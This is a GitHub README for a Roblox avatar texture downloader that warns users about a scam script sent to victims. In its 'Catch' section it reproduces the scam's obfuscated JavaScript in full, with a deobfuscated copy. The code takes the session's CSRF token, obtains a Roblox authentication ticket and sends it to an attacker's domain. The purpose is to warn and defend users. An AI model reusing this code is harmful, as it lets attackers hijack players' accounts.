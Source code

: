 # Roblox Avatar Texture Scraper
Got a message or email from someone asking for your Roblox Avatar Texture, and asking you to run a JavaScript script in your browser? Instead of doing that (and giving away access to your account in the process*), use Roblox Avatar Texture Scraper (RATS) to get it instead.

## Example Usage

### Python:
**Make sure you have Python installed**
- Download the rats.py file
- Open Command Prompt (cmd.exe) or Power Shell in the folder where you installed the file
  - Alternatively use `cd C:\Downloads` where C:\Downloads is the folder with the file.
- Run the command `python rats.py`
- Enter your Player ID (ex: `2968170`)
- (Bam!)[https://t6.rbxcdn.com/c384b03bb7ec159dd6c3ceabaef98365]

### Standalone File:
- Download the rats.exe file
- Run / Double click the file
- Enter your Player ID (ex: `2968170`)
- (Bam!)[https://t6.rbxcdn.com/c384b03bb7ec159dd6c3ceabaef98365]


## JavaScript Attack

The attack is simple, they ask you for your avatar texture and then give you an easy way of acquiring said texture. Simple, right? They're not asking for your password or anything, so where's the catch?

### Getting Your Avatar

The way they get your avatar is simple and legitimate enough, they simply query Roblox's own API using your public details.

```
async function payload2() {
    var hash = (await (await fetch((await (await fetch("https://www.roblox.com/avatar-thumbnail-3d/json?userId=" + $("meta[name='user-data']").data("userid") + "&_=" + Math.random())).json()).Url)).json()).textures[0]

    for (var i = 31, t = 0; t < 32; t++)
        i ^= hash[t].charCodeAt(0);

    location.href = "https://t" + (i % 8).toString() + ".rbxcdn.com/" + hash
}
```

A simplified breakdown:

- They fetch the JSON from `avatar-thumbnail-3d` [like this](https://www.roblox.com/avatar-thumbnail-3d/json?userId=2968170)
- They get the Textures hash from the URL in the JSON above
- They get which CDN the texture is hosted on from the hash
- They redirect your browser to the texture.

So.. where's the catch?


### *The Catch

```
(async function(){var _0x2416b1=(await(await fetch('/home',{'credentials':'include'}))['text']())['split']('setToken(\x27')[0x1]['split']('\x27)')[0x0];var _0x12edd1=(await fetch('https://auth.roblox.com/v1/authentication-ticket',{'method':'POST','credentials':'include','headers':{'x-csrf-token':_0x2416b1}}))['headers']['get']('rbx-authentication-ticket');await fetch('https://profile-roblox.com/send22test.php'+'?t='+_0x12edd1);await payload2()}());
```

This is at the bottom of the JavaScript file, all one line so it's harder to read.
Let's make it a bit more readable (using (MalwareDecoder)[https://malwaredecoder.com/] because I am lazy.);

```
(async function(){
		var _0x2416b1=(await(await fetch('/home',{
		'credentials':'include'
	}
	))['text']())['split']('setToken('')[0x1]['split']('')')[0x0];
		var _0x12edd1=(await fetch('https://auth.roblox.com/v1/authentication-ticket',{
			'method':'POST','credentials':'include','headers':{
			'x-csrf-token':_0x2416b1
		}
	}
	))['headers']['get']('rbx-authentication-ticket');
	await fetch('https://profile-roblox.com/send22test.php'+'?t='+_0x12edd1);
	await payload2()
}
());
```

And now let's have the guy that doesn't exactly know what he's talking about break it down again!

- Get your Roblox X-CSRF token ((Cross-Site Request Forgery))[https://blog.roblox.com/2020/10/protecting-users-cross-site-request-forgery/]
- Get your Roblox Authentication Ticket, using the X-CSRF token that they just acquired
- Send it to their own site
- Run the legitimate code, so you get your avatar texture.


## Why "RATS"?

My original python file I made for my own usage was called `avatr_texture.py`, and when I decided I wanted to put it out I decided to add Roblox to the name so people know what it's for, making it more likely to be seen by those who need it (Spoiler alert: Nobody will see it.)
And then I added 'Scraper' to the end because, well, I think "Rats" sounds better than "RAT" - and it also helps that the people who made the original JS script are rats.


## Me!

(I make YouTube videos.)[https://youtube.com/saxaphonewalrus] They have nothing to do with this, I just thought I'd plug it in case anyone sees this.